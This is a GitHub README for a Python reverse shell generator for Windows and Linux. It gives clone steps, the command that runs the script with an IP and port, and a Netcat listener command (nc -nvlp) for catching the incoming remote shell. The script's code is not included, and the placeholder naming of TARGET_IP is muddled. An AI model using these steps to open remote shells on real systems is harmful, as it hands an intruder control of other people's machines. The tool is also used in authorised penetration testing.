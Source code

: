 # Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- Python 3.x
- `psutil` library
- A target machine to run the reverse shell on


### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/
2. Change into the project directory:
   ```bash
   cd strike

## Usage

To create a reverse shell, you can use this script as follows:

1. For Windows:

   ```bash
   python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER
2. For Linux:

   ```bash
   python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER

# How to Run the Code

To run the code, follow the usage instructions provided in the "Usage" section above.

- Make sure you have the required dependencies installed.
- Replace TARGET_IP with the IP address of the machine you want to receive shell.
- Replace PORT_NUMBER with the port number to connect to on the machine you wan to receive shell.
- The script will create a reverse shell connection to the specified IP and port.

#IMPORTANT

You want to start listen to the specific port using 'Netcat' in  another device inorder to receive the reverse shell from the target
- listen through Netcat
  ```bash
  nc -nvlp port
